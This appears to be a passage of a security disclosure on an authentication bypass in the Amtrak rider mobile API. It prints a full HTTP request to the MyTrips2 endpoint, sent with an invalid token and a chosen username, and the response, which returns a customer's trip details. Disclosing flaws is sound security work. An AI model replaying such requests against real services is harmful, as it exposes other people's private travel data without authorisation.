 ### Authentication Bypass – User Trips

The following endpoint disclosed a customer’s trip information (the `Authentication-Token` header value was invalid):

*Note: The response differs slightly because this ticket was cancelled.*

**Request**

~~~

POST /MobileApps/MyTrips2 HTTP/1.1
Host: rider.amtrak.com
appType: IOS
Accept: */*
Content-Type: application/json; charset=UTF-8
Content-Length: 69
Authentication-Token: 8003D21900A9E7C8DDC1

…omitted for brevity…
{
"versionNumber": "3.1.7",
"appType": "IOS",
"userName": "hdjs@jdjdk.com"
}


~~~


**Response**

~~~
HTTP/1.1 200 OK
Content-Type: application/json
X-DP-SRVersion: 1.0
Content-Length: 3414

…omitted for brevity…
{
"appVersion": "1.62",
"authenticationToken": null,
"buildNumber": "1.63_20180915.0300",
"hostName": "ussbpri041amtra",
"infoNotification": null,
"responseCode": "SUCCESS",
"segments": [
],
"trips": [
{
"cancelled": false,
"journeys": [
…omitted for brevity…

"arrivalDateTime": "2019-02-13T10:50:00",
"departureDateTime": "2019-02-13T10:21:00",
"departureDateTimeInUTC": null,
"departureStationCode": null,
"departureStationName": null,
"destinationStationCode": "NYP",
…omitted for brevity…
"originStationCode": "YNY",
"rooms": null,
"routeName": "Empire Service",
"seatAssignments": null,
"seats": null,
"segmentNumber": null,
~~~